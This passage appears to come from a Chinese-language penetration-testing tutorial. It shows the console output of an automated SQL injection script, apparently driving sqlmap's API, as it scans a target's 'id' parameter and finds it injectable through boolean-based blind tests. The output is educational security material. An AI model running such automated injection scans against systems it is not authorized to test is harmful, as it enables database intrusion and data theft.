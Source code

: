 让我们执行脚本并获取 SQL 注入的输出，如下所示：

```
root@thp3:~/sqli_automate# python sqli_automate.py
Task id : d0ba910ae1236ff4
Scan Started successfully .Now polling

{   u'log': [   {   u'level': u'INFO',
                    u'message': u'testing connection to the target URL',
                    u'time': u'13:13:15'},
                {   u'level': u'INFO',
                    u'message': u'checking if the target is protected by some kind of WAF/IPS/IDS',
                    u'time': u'13:13:15'},
                {   u'level': u'INFO',
                    u'message': u'testing if the target URL content is stable',
                    u'time': u'13:13:15'},
                {   u'level': u'INFO',
                    u'message': u'target URL content is stable',
                    u'time': u'13:13:16'},
                {   u'level': u'INFO',
                    u'message': u"testing if GET parameter 'id' is dynamic",
                    u'time': u'13:13:16'},
                {   u'level': u'WARNING',
                    u'message': u"GET parameter 'id' does not appear to be dynamic",
                    u'time': u'13:13:16'},
                {   u'level': u'INFO',
                    u'message': u"heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')",
                    u'time': u'13:13:16'},
                {   u'level': u'INFO',
                    u'message': u"heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting (XSS) attacks",
                    u'time': u'13:13:16'},
                {   u'level': u'INFO',
                    u'message': u"testing for SQL injection on GET parameter 'id'",
                    u'time': u'13:13:16'},
                {   u'level': u'INFO',
                    u'message': u"testing 'AND boolean-based blind - WHERE or HAVING clause'",
                    u'time': u'13:13:16'},
                {   u'level': u'WARNING',
                    u'message': u'reflective value(s) found and filtering out',
                    u'time': u'13:13:16'},
                {   u'level': u'INFO',
                    u'message': u"testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'",
                    u'time': u'13:13:16'},
                {   u'level': u'INFO',
                    u'message': u"testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'",
                    u'time': u'13:13:17'},
                {   u'level': u'INFO',
                    u'message': u"testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment) (NOT)'",
                    u'time': u'13:13:18'},
                {   u'level': u'INFO',
                    u'message': u'GET parameter \'id\' appears to be \'OR boolean-based blind - WHERE or HAVING clause (MySQL comment) (NOT)\' injectable (with --not-string="Me")',
                    u'time': u'13:13:18'},
                {   u'level': u'INFO',
                    u'message': u"testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'",
                    u'time': u'13:13:18'},
                {   u'level': u'INFO',
```